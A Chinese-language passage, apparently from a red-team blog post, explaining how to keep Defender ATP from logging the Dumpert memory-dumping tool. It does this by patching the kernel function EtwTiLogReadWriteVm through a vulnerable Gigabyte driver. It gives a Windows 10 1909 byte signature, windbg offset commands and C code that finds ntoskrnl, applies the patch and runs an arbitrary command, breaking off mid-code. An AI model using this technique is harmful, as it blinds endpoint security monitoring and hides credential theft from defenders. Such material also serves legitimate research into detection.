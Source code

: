 现在我们已经知道系统对内存读取操作的告警点，那么能不能找到办法，避免ATP通过Etw检测到Dumpert的执行呢？比如，如果我们能patch内核，在`nt! EtwTiLogReadWriteVm`函数开头处插入一个`RET`，那么就能绕过任何记录行为。在内核patch方面，我们只需要能够在Ring3写入内核内存空间即可。在开发PoC时，我们最初想自己开发一个可用的驱动。然后我突然想起跟Cn33liz的一次讨论，当时小伙伴提示我们可以通过存在漏洞的驱动在Ring0执行代码。根据[Cn33liz](https://twitter.com/Cneelis)的提示，我们可以选择Gigabyte的漏洞驱动来实现本地提权，这方面内容大家可以参考&lt;a href=”https://medium.com/[@fsx30](https://github.com/fsx30)/weaponizing-vulnerable-driver-for-privilege-escalation-gigabyte-edition-e73ee523598b”&gt;这篇文章，其中详细分析了如何提权，以及如何移除进程保护模式（Process Protect Mode）。一旦我们具备内核模式的读写权限，我们还需要寻找特征点。在Windows 10 1909上，我们可以寻找如下特征：

```
fffff804`0e45291c 4183f910        cmp     r9d,10h
fffff804`0e452920 b800000c00      mov     eax,0C0000h
fffff804`0e452925 41b800000300    mov     r8d,30000h

```

然后使用windbg，检查该特征是否具备唯一性：

```
lkd&gt; s -[1]b nt L0x1000000 41 83 f9 10 b8 00 00 0c 00 41 b8 00 00 03 00
0xfffff804`0e45291c
```

然后计算偏移量：

```
lkd&gt; ? fffff804`0e45291c - nt!EtwTiLogReadWriteVm
Evaluate expression: 76 = 00000000`0000004c
```

为了获取内核的基址，我们可以使用`NtQuerySystemInformation`，将`NtQuerySystemInformation`传入`SystemInformationClass`参数。

```
cif (!NT_SUCCESS(status = NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, 1024 * 1024, NULL)))
{
  printf("\nError: Unable to query module list (%#x)\n", status);

  VirtualFree(ModuleInfo, 0, MEM_RELEASE);
  return -1;
}
```

然后遍历已加载的模块，寻找`ntoskrnl.exe`，将patch应用到前面windbg计算出的偏移量：

```
for (i = 0; i &lt; ModuleInfo-&gt;NumberOfModules; i++)
{
    if (strcmp((char *)(ModuleInfo-&gt;Modules[i].FullPathName + ModuleInfo-&gt;Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0)
    {
    printf("[+] Kernel address: %#x\n", ModuleInfo-&gt;Modules[i].ImageBase);

    uintptr_t pml4 = find_directory_base(ghDriver);
    printf("\n");

    BOOL result = read_virtual_memory(ghDriver, pml4, (uintptr_t)ModuleInfo-&gt;Modules[i].ImageBase, buffer, searchlen);
    if(result)
    {
        DWORD offset = searchSign((unsigned char*)buffer, signature, sizeof(signature));
        free(buffer);
        printf("[*] Offset %d\n", offset - backoffset);

        patchFunction(ModuleInfo-&gt;Modules[i].ImageBase, pml4, offset - backoffset, "EtwTiLogReadWriteVm");

        printf("[+] Run your command now\n");

        int retCode = system(argv[1]);

```